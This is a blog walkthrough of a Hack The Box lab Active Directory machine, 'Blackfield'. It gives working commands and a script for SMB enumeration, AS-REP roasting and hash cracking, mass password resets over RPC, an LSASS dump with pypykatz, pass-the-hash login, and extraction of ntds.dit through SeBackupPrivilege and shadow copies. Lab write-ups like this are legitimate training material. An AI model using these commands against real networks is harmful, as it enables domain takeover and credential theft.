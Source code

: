 ```yaml
---
layout: post
author: k0z4c
title: Blackfield
---
```


## **Getting Access**

We start with nmap scanning every port
```bash
nmap -A -T4 -Pn -n -oA nmap/tcp_all -p- -vvv blackfield.htb
```

![]({% link assets/htb/blackfield/nmap.png %})

After seeing that we are facing a Windows box (RPC's ports) and that is a domain controller (port 53),
the enumeration doesn't seem to lead us very far.

So we try to see if anonymous access is allowed on the SMB service
```bash
smbclient -U'a%a' -L \\\\blackfield.htb
```

Then, with smbmap let's look where we have access

![]({% link assets/htb/blackfield/profiles.png %})

Entering to the profiles$ share, we see that we can obtain a bunch of domain usernames

Let's save those names with 
```bash
smbmap -H blackfield.htb -d blackfield -u 'a' -r profiles$ | cut -f 3 | tail -n +8 > usernames.lst
```

Then, let's test if the PRE_AUTH kerberos flag it's enabled for some accounts with
```bash
GetNPUsers.py -u usernames.lst -dc-ip 10.10.10.192 -format hashcat -outputfile hashes BLACKFIELD.LOCAL/
```
![]({% link assets/htb/blackfield/preauth.png %})
  
So we got the hash of the support account
![]({% link assets/htb/blackfield/support_hash.png %})

Let's crack it with hashcat !
```bash
hashcat -a 0 -m 18200 /root/hashes /root/rockyou.txt
```
![]({% link assets/htb/blackfield/support_pass.png %})

After seeing that we cannot log with the WinRm service to the machine, let's see if we have further access on SMB

![]({% link assets/htb/blackfield/support_access.png %})

After downloading SYSVOL with smbget I found nothing because the disk was encrypted with EFS encryption.

## ***RPCs, motherfuckers!***

So, what's now ?

So I thought about RPC; in fact, many services on the remote host are usually exposed through RPC interfaces.
For example, through RPC is possible to enumerate account usernames, privileges, domain info, ... 

Let's give it a try
```bash 
rpcclient -W blackfield -U'support%#00^BlackKnight' blackfield.htb
```

We see that our pwned account has so many privileges
![]({% link assets/htb/blackfield/support_privs.png %})

So I started to think I could abuse those rights in some ways; for example, why dont try to reset a password to some user?
Then I wrote the following script 

{% highlight bash linenos %}
for u in $(cat /root/htb/blackfield/enum_users.lst); 
do
	echo "[*] Tryin $u.."
	rpcclient -W BLACKFIELD -U 'support%#00^BlackKnight' -c "setuserinfo2 $u 23 Pwned123!!" 10.10.10.192;

	if [[ $? -eq 0 ]]; then
		echo "[*] PWNED $u !!!"
		break
	fi
done
{% endhighlight %}


And voila' !


![]({% link assets/htb/blackfield/audit_pwn.png %})

So now we are able to access again SMB network share with more privileges.
In particular, we are now able to access the forensic share 
```bash
smbmap -H blackfield.htb -u audit2020  -p 'Pwned123!!' -R forensic
```

## **Recovering hashes from LSASS minidump**

![]({% link assets/htb/blackfield/lsass_zip.png %})

The lsass.zip file looks very interesting; we can recover maybe some hashes. 
Let's download it 
```bash
smbget  -U'audit2020%Pwned123!!'  -w blackfield.local smb://blackfield.htb/forensic/memory_analysis/lsass.zip
```
The file is a memory minidump, as expected
![]({% link assets/htb/blackfield/file_lsass.png %})

So we can examine it with pypikatz!
```bash 
pypykatz lsa minidump lsass.DMP -o lsass_hashes.data
```

![]({% link assets/htb/blackfield/backup_hash.png %})

Now we can log onto the box with the svc_backup account
```bash
evil-winrm.rb -i 10.10.10.192 -H 9658d1d1dcd9250115e2205d9f48400d -u svc_backup
```

![]({% link assets/htb/blackfield/backup_privs.png %})

## **Privilege escalation with Shadow Copy**

The SeBackupPrivilege (we belong to the Backup Operators Group) is awesome; we can read and backup every file on the machine
without worry about any ACLs restriction on the filesystem!

So we can copy the ntds.dit file and recover all the domain hashes.
Following this guide https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group
we can priv esc to Administrator, after making a ShadowCopy of the domain database. 

Let's write this script then
```bash
set context persistent nowriters  
set metadata c:\users\svc_backup\appdata\local\temp\juicy.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  
 
create  
  
expose %mydrive% w:  
end backup 
```

After uploading it on the target box, we make a shadow copy of C: with
```bash
diskshadow /s script.dsh
```
![]({% link assets/htb/blackfield/shadow.png %})

After the process completes, we'll find our copy on a W: drive.
To retrieve the ntds.dit database file, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder.

So we download and compile with Visual Studio this project https://github.com/giuliano108/SeBackupPrivilege
and we load the SeBackupPrivilegeCmdLets.dll and SeBackupPrivilegeUtils.dll in our powershell session and we type
```bash
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\users\svc_backup\appdata\local\temp\ntds.dit -Overwrite
```

Now we backup the system hive needed  to later decrypt the ntds.dit file
```bash
reg save HKLM\SYSTEM c:\users\svc_backup\appdata\local\temp\system.hive
```

Now we can finalliy download everything
![]({% link assets/htb/blackfield/download_pwn.png %})

Let's now recover the Administrator hash
```bash
secretsdump.py -ntds /root/evil-winrm/ntds.dit -system /root/evil-winrm/system.hive -hashes lmnhash:nthash LOCAL -outputfile loot.hashes
```

![]({% link assets/htb/blackfield/pwn_hashes.png %})

Let's log in as Administrator
![]({% link assets/htb/blackfield/pwn.png %})

pwned ! (:
